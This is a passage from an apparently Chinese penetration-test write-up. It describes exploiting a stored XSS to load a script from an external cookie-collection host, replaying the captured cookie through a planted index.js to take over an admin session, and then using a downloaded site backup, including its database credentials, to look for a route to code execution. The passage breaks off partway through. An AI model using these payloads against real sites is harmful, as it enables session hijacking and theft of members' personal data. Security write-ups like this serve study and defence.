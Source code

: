 ```js
// 创建一个新的script元素
var scriptElement = document.createElement('script');

// 设置script元素的src属性
scriptElement.src = "//xms.la/U5";

// 将script元素添加到页面的头部或其他需要的位置
document.head.appendChild(scriptElement);

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9cecc1685562b3bf5e1540817c53392d81d24939.png)  
成功有鱼上钩，我们拿Cookie试一下  
这个时候我别忘了还有一个index.js也是在cdn1的子域下面，所以我们再新建一个index.js执行Cookie写入操作，为了避免影响其他用户，我们特地通过一个url参数来控制执行

```js
// 获取当前页面的 URL
var currentUrl = window.location.href;

// 解析 URL 查询字符串中的参数
var urlParams = new URLSearchParams(currentUrl.split('?')[1]);

// 检查是否存在名为 "us" 的参数，并且它的值是否为 "1"
if (urlParams.has('us') && urlParams.get('us') === '1') {
  // 设置名为 "usCookie" 的 Cookie，值为 "1"
  document.cookie = "这里是我们获取到的Cookie";
}

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-c5c48d02d9ce0c734947d158c7a634a5b1bb6477.png)  
我们刷新页面，发现自动重定向到后台了，里面有很多会员的身份信息，均为敏感信息。我们做到这里不得不吐槽一句这个单位的数据安全防护太不尽人意了，先后两个系统数据都被泄露。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-691eeb2c139029caff3dbb5eb23d4ef4c3724b4e.png)  
这个系统没有文件上传操作功能，但是我通过XSS实现了RCE，如何做的？接下来你就知道了，

0x04 生成控件：修改页面实现RCE
-------------------

首先，我们例行再次进行扫描。有些目录在非登录状态下是不可见的，会被重定向，现在我们已经登录了，就可以带着Cookie去扫，看看有没有目录遍历或者备份文件下载。

在网站的Back目录中，我们发现/Back/back2022.zip是可以下载的，应该是网站备份文件，所以下载下来进行代码审计

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b86b5f4be1134d02967edc9e60d09fe377181732.png)  
我们把文件解压后，发现真的是一个很简单的数据管理系统，可以说是裸奔在互联网了。我们直接来到untils目录下面，这个目录一般就是放一些配置文件之类的  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-f4354928675f138c35e1e5bf149dfa5a9205f879.png)  
先打开connect\_db.php

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-36bd0408de4c618e2847c44739e1d0622ecf4179.png)  
简单、直接、明了地告诉了我们数据库密码，够爽快！但是数据库只允许127.0.0.1本地连接，我试了发现无法直接连接数据库，放弃sql提权的思路，看看有没有其他更简单的方式

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b7aa8eb1001476a2403d6b455186f087bdd47bf7.png)  
在admin目录下有个文件上传功能，是用来上传用户头像，但是好像这个功能没有继续开发导致荒废，不过代码没有删除（或者这个功能正在开发中，只开发到了一半，没有写前端）
